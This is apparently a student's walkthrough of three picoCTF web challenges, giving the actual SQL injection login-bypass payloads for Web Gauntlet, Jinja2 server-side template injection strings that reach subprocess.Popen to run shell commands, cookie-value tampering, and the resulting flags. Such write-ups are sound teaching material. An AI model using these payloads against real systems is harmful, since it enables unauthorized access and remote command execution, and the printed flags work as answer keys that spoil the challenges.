





# Web Gauntlet

Can you beat the filters?Log in as admin 
http://shape-facility.picoctf.net:56097/
http://shape-facility.picoctf.net:56097/filter.php

# Solution

At the start the login screen is just basically just like this




While I enter the username and password to be admin and admin

```sql
SELECT * FROM users WHERE username='admin' AND password='admin'
```

This is the background output I get.
From this I am able to realize that if I know the correct username to be admin if I am able to comment out the rest of the things I will pass. 

### Round 1 soln:-

Hence I enter the following username

```sql
admin'--
```

The password I enter is `fraud`

### Round 2 soln:-

In this round I was given the following restrictions:-
`Round2: or and like = --`

Using this type of comment was no longer allowed so I just duckduckgoed how to find a way around this. I realised that we can just use `/*` to comment out multiple lines


```sql
admin' /*
```

and kept the same password. 

### Round 3 soln:-

Round 3 restriction `Round3: or and = like > < --`  For this round we can just use the termination statement for sql

```sql
admin';
```

## Round 4 soln:-

Round 4 restriction `Round 4:Round4: or and = like > < -- admin`
In this round we are not allowed to type `admin` anymore so basically we can use the concatenation and just try to solve

```sql
admi'||'n';
```

## Round 5 soln:-

The round 4 and round 5 have the same restrictions hence we don't need to make any changes and can solve using the same thing

```sql
admi'||'n';
```

## Flag:-

picoCTF{y0u_m4d3_1t_79a0ddc6}

## Resources:-

https://solutioncenter.apexsql.com/rules-of-sql-formatting-terminating-sql-statements-with-semicolons/


# SST1:-

I made a cool website where you can announce whatever you want! Try it out!I heard templating is a cool and modular way to build web apps! Check out my website [here](http://rescued-float.picoctf.net:62569/)!

## Solution

From the hint I was able to infer that we have to use Server Side Template Injection. 

The first step in Server Side Template Injection according to the below resource is to check which time of template engine is being used over here. 
The list of input is:-

```
- {{7*7}} (Jinja2)
- <%= 7*7 %> (ERB/Ruby)
- ${7*7} (Thymeleaf)
```

as only the first input worked I understood that the question is using Jinja2 template engine. 

In order to exploit this Jinja2 engine we can inject a command 
```jinja2
{{ ''.__class__.__mro__[1].__subclasses__() }}
```

This will give us the list of all classes loaded in the memory. 
`subprocess.Popen` is the class that will be used in order to execute commands. 
However in order to execute that class I have to find it's index number. 




Through `ctrl + f` I was able to find it to be the 356th index and then I can execute any command I want. 

```Jinja2
{{ ''.__class__.__mro__[1].__subclasses__()[356]('ls', shell=True, stdout=-1).communicate() }}
```

The above command give us the list of files present. 
`# (b'__pycache__\napp.py\nflag\nrequirements.txt\n', None)`

From the above output we are able to infer that we are supposed to read this `requirements.txt`

Let us run the above command again.
```jinja2
{{ ''.__class__.__mro__[1].__subclasses__()[356]('cat flag', shell=True, stdout=-1).communicate() }}
```

The output of this is:-

`# (b'picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_09365533}', None)`

## Flag

picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_09365533}

## Resources:-

https://medium.com/@vickemboi/server-side-template-injection-ssti-a-complete-beginners-guide-55f4a6bd9294
https://retherszu.github.io/vulnerabilities/web/server-side-template-injection/ssti-in-jinja2.html


# Cookies:-

Who doesn't love cookies? Try to figure out the best one. [http://mercury.picoctf.net:27177/](http://mercury.picoctf.net:27177/)

## Solution

After loading the website this is the screen we get 



I also opened the cookies tab simultaneously to inspect what is going on over there. 



Initially I thought of entering the `name` inside the search box in order to solve but since that didn't work I enter snickerdoodle. 



This was the new output I got and the value of the cookie changed from -1 to 1. 

I kept putting in random values of the cookie. Then after some advise. I started putting values in ascending order like 1,2,3,4,5. When i reached 18 it gave me the flag.

## Flag

`picoCTF{3v3ry1_l0v3s_c00k135_064663be}`

